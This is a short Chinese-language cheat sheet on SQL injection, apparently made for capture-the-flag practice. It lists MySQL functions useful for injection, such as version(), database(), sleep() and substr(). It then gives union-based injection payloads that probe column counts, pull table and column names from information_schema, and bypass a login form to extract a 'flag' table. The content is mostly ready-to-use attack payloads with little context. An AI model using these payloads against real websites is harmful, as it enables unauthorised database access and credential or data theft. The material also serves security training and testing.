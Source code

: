 ## 基本函数：
concat()：concat(str1, str2,…)将多个字符串连接成一个字符串

version():数据库版本

user():用户名

database():当前数据库名

```
union select 1,schema_name from information_schema.schemata # 
同样查库名
```

length():返回字符串长度

substr():截取字符串

group_concat():连接一个组的字符串

ord():返回ascii编码样式

ascii():转换为ascii样式

md5():md5加密

floor(x):向下取整

rand():返回0-1随机浮点数

sleep():睡眠时间为指定秒数

left()

if(ture,语句1,语句2)：正确执行语句1，否则执行语句2

`LIMIT 1,1`，从查询结果的第二行开始（跳过第一行），返回一行记录

## 联合注入：
```
?id=1 order by 2#
```

当被过滤可用group by

```
1' or 1=1 order by 3

?id=-1 union select (select group_concat(table_name) from information_schema.tables where table_schema = database()),database()# 注意union之前要为假

?id=-1' union select (select group_concat(column_name)from information_schema.columns where table_name='xxx'),database()

?id=-1 union select 1,group_concat(xxx) from 库名.表名

语句实际：username=1' or 1=1 union select 1,(select group_concat(flag) from flag),3#&password=1
```

